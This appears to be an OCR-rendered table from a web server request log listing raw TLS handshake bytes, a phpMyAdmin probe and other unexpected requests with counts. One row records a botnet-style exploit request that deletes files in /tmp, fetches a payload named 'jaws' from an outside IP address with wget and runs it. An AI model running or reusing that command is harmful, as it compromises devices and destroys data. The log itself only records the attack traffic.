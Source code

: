 | 208 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xDC\x93'\x1D\x90\xF0\x88Y\xD8\x0Cf\xDFs\xEBj\x90)1;\x9A\xE3E\x16\x9A\xAFj\x17W!yu\x18\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                                                                                                                                                                                      |
| 209 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x9BE\xAD\x0B\xBFP\x80\xB8\x82\xF9f\xA5y\x93\xAF+c                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 210 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\x16\xB3\x22\xA6\xE3\x8F11\xB6j{\x9C\x19\xFEx\x97\x99w\x1F\xCD\xEC\x02\xEE\x87w\x8CNV9#\x88U XA`\xB8\xAC\xEFp\xAFI.Dk\xFC\xF8\x13+\x8F\xE0c\xE5\x82\xA0]>$\xAC`f\xD3\xDB\xB5m\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                                                                                                                                                                              |
| 211 |                     1 | H\x00\x00\x00tj\xA8\x9E#D\x98+\xCA\xF0\xA7\xBBl\xC5\x19\xD7\x8D\xB6\x18\xEDJ\x1En\xC1\xF9xu[l\xF0E\x1D-j\xEC\xD4xL\xC9r\xC9\x15\x10u\xE0%\x86Rtg\x05fv\x86]%\xCC\x80\x0C\xE8\xCF\xAE\x00\xB5\xC0f\xC8\x8DD\xC5\x09\xF4                                                                                                                                                                                                                                                                                                                                                              |
| 212 |                     1 | GET /phpmyadmin2020/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 213 |                     1 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 214 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03=\x0E\xEE\x0C\x13\xCE.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 215 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03%]\xB4Z\x12\xD8\xCC\x07\xD4\xC9fQm\x02\x90\xD8\xE8\xB7\xB4s\x22\x9A\xF6ifIm\x8C\xB7\xA7\xB0<\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                                                                                                                                                                                |
| 216 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03d\xA1_\xBF/\xF4@\xDB\x9E\xE6\xB0\x18\xFB\x8C\x85\xF4/\xA3p}S-\xF8'3[\xD1a\xAE\xDEih\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                                                                                                                                                                                         |
| 217 |                     1 | \x16\x03\x01\x05\xA8\x01\x00\x05\xA4\x03\x03\xD4\xE8\x13\xC8'\x1C\xAC\x16\xE9%t\xDB\x17Vr\x93\xBB\xA0\xC3\xC0\xC0\xBE\x18\x812\x9DG\xA1dd\xB2\xEF >\xEA\xB7Y1\xCA\xFD\xAB\xE0\xB6\xA8\xF3\xE5\x01\x1D\x04\xF4 \xFB\xFC\xFFv?\xE1\xF2Q\x09\xBF\x1D\xF4\xD2\xA9\x00\x1A\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                                                                                                                                       |